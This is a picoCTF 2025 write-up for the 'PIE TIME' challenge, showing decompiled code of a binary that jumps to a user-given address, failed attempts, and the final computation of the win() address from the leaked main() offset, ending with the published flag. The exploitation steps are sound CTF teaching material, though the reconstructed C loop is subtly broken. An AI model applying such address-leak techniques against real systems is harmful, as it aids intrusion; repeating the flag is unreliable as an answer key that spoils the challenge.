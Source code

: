 ```yaml
---
title: PicoCTF - PIE TIME
published: 2025-08-07
description: PicoCTF Writeup for PIE TIME Challenge
tags: [binary exploitation, easy, picoCTF 2025]
category: PicoCTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - PIE TIME

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/490?category=6&page=1](https://play.picoctf.org/practice/challenge/490?category=6&page=1)

> ## PIE TIME
> Author: Darkraicg492
> 
> ### Description
> Can you try to get the flag? Beware we have PIE!<br>
> Additional details will be available after launching your challenge instance.<br>
> ### Hints
> 1st - Can you figure out what changed between the address you found locally and in the server output?<br>
> ### Resources:
> Source Code: [/vuln.c](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln.c)<br>
> Binary: [/vuln](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln)<br>

```bash title="Server Information"
$ nc rescued-float.picoctf.net 59097
```

## Decompile

We can decompile the binary to a pseudo C like this (Binary Ninja):

```c title="/vuln_original.c"
00401289    void segfault_handler() __noreturn

00401289    {
00401289        puts("Segfault Occurred, incorrect add…");
004012a2        exit(0);
004012a2        /* no return */
00401289    }

/* ... */

004012a7    int win()
004012a7    /* all puts, putchar should be changed to printf() */

004012a7    {
004012a7        puts("You won!");
004012cd        FILE* fp = fopen("flag.txt", "r");
004012cd        
004012db        if (!fp)
004012db        {
004012ff            puts("Cannot open file.");
004012ee            exit(0);
004012ee            /* no return */
004012db        }
004012db        

00401322        char i = fgetc(fp);
00401322        while (i != EOF) { /* 0xff => EOF */
00401322            putchar(i)
00401322        }

00401322        
00401329        putchar("\n"); /* \n in ASCII code (line-break) */
0040133c        return fclose(fp);
004012a7    }


/* ... */

0040133d    int main()
0040133d    /* int32_t argc => Not used */
0040133d    /* char** argv => Not used */
0040133d    /* char** envp => Not used */

0040133d    {
0040133d        void* fsbase;
00401349        int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00401349        /* No needed */

00401364        signal(SIGSEGV, segfault_handler); /* 0xb => SIGSEGV */
00401382        setvbuf(stdout, NULL, _IONBF, 0);
00401382        /* __TMC_END__ => stdout */
00401382        /* nullptr => NULL */
00401382        /* 2 => _IONBF (no buffering) */


0040139a        printf("Address of main: %p\n", &main);
0040139a        /* &main to show memory pointer */

004013ab        printf("Enter the address to jump to, ex => 0x12345: ");
004013c3        unsigned long buffer;
004013c3        /* var_20 => buffer (stores a memory address) */
004013c3        scanf("%lx", &buffer);
004013c3        /* __isoc99_scanf => scanf */

004013db        printf("Your input: %lx\n", buffer);

004013ec        void (*target_func)(void) = (void (*)())buffer;
004013ec        /* need to declare as a function before jump */
004013ec        target_func();
004013ec        /* jump to the memory location that user provided */    

004013ec        
00401400        /* Useless from below here */
00401400        if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401408            return 0;
00401408        
00401402        __stack_chk_fail();
00401402        /* no return */
0040133d    }

```

This is the full source code (decompiled):

```c title="/vuln.c"
void segfault_handler()
{
    printf("Segfault Occurred, incorrect address.");
    exit(0);
}

int win()
{
    printf("You won!");
    FILE* fp = fopen("flag.txt", "r");   
    if (!fp)
    {
        printf("Cannot open file.");
        exit(0);
    } 

    char i = fgetc(fp);
    while (i != EOF) {
        printf("%c", i)
    }
 
    printf("\n");
    return fclose(fp);
}

int main()
{
    signal(SIGSEGV, segfault_handler);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("Address of main: %p\n", &main);
    printf("Enter the address to jump to, ex => 0x12345: ");
    unsigned long buffer;
    scanf("%lx", &buffer);
    printf("Your input: %lx\n", buffer);

    void (*target_func)(void) = (void (*)())buffer;
    target_func(); 
}
```

## Analysis
This program directly jumps to the memory address provided by the user. Additionally, it automatically reveals the address of the `main()` function. By using this address, the user can infer the address of the `win()` function. If the correct address is entered, the program will print the flag.

```c
004012a7    int64_t win() /* 0x0004012a7 */
```

```bash
therustymate-picoctf@webshell:~$ vuln
-bash: vuln: command not found

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x564a8857633d
Enter the address to jump to, ex => 0x12345: 0x0004012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55958f4eb33d
Enter the address to jump to, ex => 0x12345: 0x4012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x56426097933d
Enter the address to jump to, ex => 0x12345: 004012a         
Your input: 4012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55d43b65e33d
Enter the address to jump to, ex => 0x12345: 0x55343b64012a
Your input: 55343b64012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x560ada01333d
Enter the address to jump to, ex => 0x12345: 0x560ada0132ㅁ7           
Your input: 560ada0132
Segfault Occurred, incorrect address.
```

Notice the `main()` function offset **33d** does not change.<br>
Therefore, the base address is `0xXXXXXXXX+func (3 bytes)`

This suggests that the input should be: `0xXXXXXXXX2a7` in order to jump to the `win()` function.

```bash
therustymate-picoctf@webshell:~$ nc rescued-float.picoctf.net 59097
Address of main: 0x5fd38eed433d
Enter the address to jump to, ex => 0x12345: 0x5fd38eed42a7
Your input: 5fd38eed42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}
```

The flag is: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}`